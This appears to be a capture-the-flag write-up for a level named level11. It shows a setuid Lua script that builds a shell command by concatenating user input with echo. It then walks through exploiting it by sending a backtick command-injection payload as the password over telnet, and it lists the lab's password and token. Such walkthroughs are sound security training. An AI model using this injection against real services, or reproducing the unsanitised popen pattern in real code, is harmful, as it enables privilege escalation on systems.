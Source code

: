 # Level11 - Flag11

## Local script usage

```shell
Usage: ./main.sh
```

## Passwords and token

|         |                             |
| ------- | --------------------------- |
| level11 | `feulo4b72j7edeahuete3no7c` |
| flag11  |                             |
| token   | `fa6v5ateaw21peobuub8ipe6s` |

## Steps to resolve on VM

1. Connect to `level11` user and notice there is a lua script with setuid bit

```bash
ssh level11@$SNOW_HOST -p 4242
# Enter the password

ls -l

> -rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

2. Check the file

```bash
cat level11.lua
```

```lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151)) -- localhost:5151

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r") -- Note echo and "pass" parameter
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```

While reading the script, we can see what the program do.

It asks for a password, then hashes it, then compares the hashed password with an other hashed string, and finally... nothing, just return a useless message.

It would be a waste a time to try to decrypt the hashed string.

The interesting thing here is `echo` runned by a program with setuid permission. We can exploit this echo and inject a command.

3. Run the script (or check it is already running)

Check running process

```bash
ps aux | grep level11.lua

> USER       PID %CPU %MEM    VSZ   RSS TTY      STAT START   TIME COMMAND
> flag11    2041  0.0  0.0   2892   828 ?        S    15:02   0:00 lua /home/user/level11/level11.lua
```

Check listening ports

```bash
netstat -tulpn | grep 5151

> Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
> tcp        0      0 127.0.0.1:5151          0.0.0.0:*               LISTEN      -
```

If the program is already running and the port 5151 open, we can ignore this step.

Otherwise run:

```bash
./level11.lua
```

4. Exploit echo with injection

Exploit echo command inside script while injecting getflag command

```bash
telnet localhost 5151

> Trying 127.0.0.1...
> Connected to localhost.
> Escape character is '^]'.
> Password :
```

Then injection command instead of password :

```bash
`getflag > /tmp/getflag`

# ignore next messages
> Erf nope..
> Connection closed by foreign host.
```

7. Get level flag

Finally, read `/tmp/getflag`

```bash
cat /tmp/getflag

> Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```

---

## Sources

### Shell

- [Check ports in use](https://www.cyberciti.biz/faq/unix-linux-check-if-port-is-in-use-command/)
- [Man telnet](https://linux.die.net/man/1/telnet)
